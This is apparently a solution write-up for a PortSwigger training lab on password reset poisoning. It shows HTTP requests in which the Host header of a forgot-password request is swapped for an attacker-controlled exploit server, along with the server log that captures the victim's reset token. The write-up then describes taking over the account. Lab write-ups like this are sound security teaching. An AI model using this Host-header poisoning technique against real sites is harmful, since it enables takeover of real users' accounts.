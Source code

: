 # [Lab: Basic password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)

## Lab

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Solutions

intercept the forgot password for `carlos` account:

```http
POST /forgot-password HTTP/1.1
Host: id.web-security-academy.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

modify the `Host` header:

```http
POST /forgot-password HTTP/1.1
Host: exploit-id.exploit-server.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

forward then check the log in the exploit-server:

```text
10.0.3.217      2023-02-06 09:36:58 +0000 "GET /forgot-password?temp-forgot-password-token=IjA38Dxt3OfsjkaM0NiatyrNwSsad0B0 HTTP/1.1"
```

access `/forgot-password` endpoint with the observed token to change Carlos's password, login => solved
